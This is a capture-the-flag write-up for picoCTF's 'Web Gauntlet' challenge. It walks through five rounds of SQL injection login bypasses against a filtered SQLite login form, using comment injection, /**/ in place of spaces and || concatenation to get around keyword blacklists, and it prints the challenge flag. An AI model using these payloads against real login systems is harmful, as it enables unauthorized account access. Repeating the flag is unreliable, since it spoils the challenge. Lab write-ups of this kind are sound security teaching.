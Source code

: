 # Web Gauntlet ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
Can you beat the filters? Log in as admin<br>
http://jupiter.challenges.picoctf.org:54319/ <br>
http://jupiter.challenges.picoctf.org:54319/filter.php

Hints:
- You are not allowed to login with valid credentials.
- Write down the injections you use in case you lose your progress.
- For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
- sqlite
- If your cookie keeps getting reset, try using a private browser window

## Write-up: 📝
We have to get through all 5 SQLi challenges. One link gives the form , display query after wrong credential submission or nothing if the query statement contains filtered words.
The other links show the filtered words.
## Solution: 💯
### Round 1:

Filter: `or`

Login as admin so the username=admin, and query **sqli** here. Use `--` to comment out

User: `admin' --`

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin' --'  AND password='123'`

### Round 2:

Filter: `or and like = --`

Login as admin. Change comment out operator "--" to "/*"

User: `admin' /*`

Password: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin' /*'  AND password='123'`

### Round 3:

Filter: `or and = like > < --`

Beware of this round also filter **spaces** so we use the payload above and replace **spaces** with `/**/`

User: `admin'/**//*`

Password: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin'/**//*'  AND password='123'`

### Round 4:

Filter: `or and = like > < -- admin`

They filter the string **"admin"** if we input directly. So we need a **concatenation operator** and here we use `||`

User: `ad'||'min'/**//*`

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='ad'||'min'/**//*'  AND password='123'`

### Round 5:

Filter: `or and = like > < -- union admin`

With **union** filtered, our payload above is not affected.

User: ad'||'min'/**//*

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='ad'||'min'/**//*'  AND password='123'`

When you done reaching to 6/5 round. Back to **filter** file and the flag is there !

#### The Flag (for reference): ✔️
```
picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
```

